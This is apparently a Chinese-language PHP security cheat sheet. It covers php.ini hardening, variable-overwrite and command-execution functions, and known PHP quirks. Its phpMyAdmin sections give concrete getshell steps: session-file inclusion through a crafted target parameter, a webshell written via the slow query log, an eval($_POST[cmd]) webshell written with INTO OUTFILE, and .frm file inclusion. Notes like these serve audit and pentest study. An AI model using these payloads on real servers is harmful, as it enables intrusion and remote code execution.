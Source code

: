 ## php.ini
php.ini并放置在httpd.conf中PHPIniDir指定的目录，使用phpinfo()函数可以查看

```ini
safe_mode = off 避免各种奇怪的失败
register_globals 关闭
open_basedir 配置， 防止目录遍历
allow_url_fopen 关闭 文件打开限制
display_error =off 避免攻击者获取更多信息
expose_php = off 隐藏版本信息
```

## 代码审计练习
https://github.com/hongriSec/PHP-Audit-Labs

两款代码审计工具 seay ,RIPS



## phpmyadmin 密码修改
1. 更改用户中的密码
2. `config.inc.php`中password修改

## 序列化和反序列化

CVE-2016-7124

## 变量覆盖漏洞
　　变量覆盖指的是用我们自定义的参数值替换程序原有的变量值，一般变量覆盖漏洞需要结合程序的其它功能来实现完整的攻击 变量覆盖漏洞大多数由函数使用不当导致，经常引发变量覆盖漏洞的函数有：extract(),parse_str()和import_request_variables()

## RCE(远程代码执行)
命令注入攻击中WEB服务器没有过滤类似system(),eval()，exec()等函数是该漏洞攻击成功的最主要原因。
```php
System() //有回显
exec() //无回显
shell_exec() //无回显
passthru() //有回显
```

### ereg()
出现%00 则只检查%00前面的字符串
### preg_replace()
正则表达式替换，第一个参数/e结束时，会将第二个参数当成代码执行

### 序列化与反序列化
unserialize 会调用__wakeup 函数

### assert()

当第一参数是字符串时，执行字符串代码

### 更改http头 
Content-Type:image/gif

## phar
TODO:
https://blog.csdn.net/ru_li/article/details/51452488
http://www.vuln.cn/2035
http://www.webhek.com/post/packaging-your-php-apps-with-phar.html
## phpmyadmin
### 本地session包含
1. root登录，执行 `select '<?php phpinfo();exit;?>'`
2. 找到phpmyadmin cookie，`/index.php?target=db_sql.php%253f/../../var/lib/php/sessions/<you cookie>`

### 文件包含getshell

获取web绝对路径(`select @@basedir;`)

### 日志getshell
```sql
set global slow_query_log=1; --开启慢查询日志
show global variables like '%long_query_time%'
# 默认10秒

set global slow_query_log_file='dir\filename';
select '<?php phpinfo();?>' or sleep(11);
```
### 文件写入shell
方法一：
```sql
SHOW VARIABLES LIKE '%secure_file_priv%'; 
# 结果为null时无法写入文件
select '<?php @eval_r($_POST[cmd])?>'INTO OUTFILE '网站目录路径/eval.php'
```
方法二：
1. test数据库下新建表，字段名`<?php phpinfo()?>`
2. 查看sql文件路径`show variables like '%datadir%'`
3. getshell `/index.php?target=db_sql.php%253f/../../var/lib/mysql/test/hy.frm`

